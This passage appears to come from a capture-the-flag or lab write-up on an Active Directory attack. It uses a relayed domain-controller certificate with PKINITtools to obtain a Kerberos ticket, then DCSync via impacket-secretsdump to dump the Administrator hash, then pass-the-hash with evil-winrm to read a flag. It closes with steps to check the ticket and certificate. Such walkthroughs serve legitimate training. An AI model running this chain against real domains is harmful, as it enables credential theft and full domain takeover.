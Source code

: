 #### 3. PKINITtools Setup
```bash
# Setup environment
cd ~/PKINITtools
source .venv/bin/activate

# Generate TGT
python3 gettgtpkinit.py -cert-pfx ../DC01\$.pfx -dc-ip 10.129.234.174 'inlanefreight.local/dc01$' /tmp/dc.ccache

# Export ticket
export KRB5CCNAME=/tmp/dc.ccache
```

#### 4. DCSync Administrator
```bash
# Extract Administrator hash
impacket-secretsdump -k -no-pass -dc-ip 10.129.234.174 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL

# Result: Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd02e525dd676fd8ca04e200d265f20c:::
```

#### 5. Administrator Access
```bash
# Connect with hash
evil-winrm -i dc01.inlanefreight.local -u Administrator -H fd02e525dd676fd8ca04e200d265f20c

# Get flag
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\flag.txt
# Result: a1fc497a8433f5a1b4c18274019a2cdb
```

### Validation and Verification

#### Confirm Certificate Generation
```bash
# After ntlmrelayx success, verify PFX file exists
ls -la DC01*.pfx
# Should show: DC01$.pfx with recent timestamp

# Check file size (should be ~2-3KB)
du -h DC01*.pfx
```

#### Validate TGT Generation
```bash
# After gettgtpkinit.py, confirm ticket cache
ls -la /tmp/dc.ccache

# Verify ticket contents
klist
# Should show: dc01$@INLANEFREIGHT.LOCAL with valid dates
```
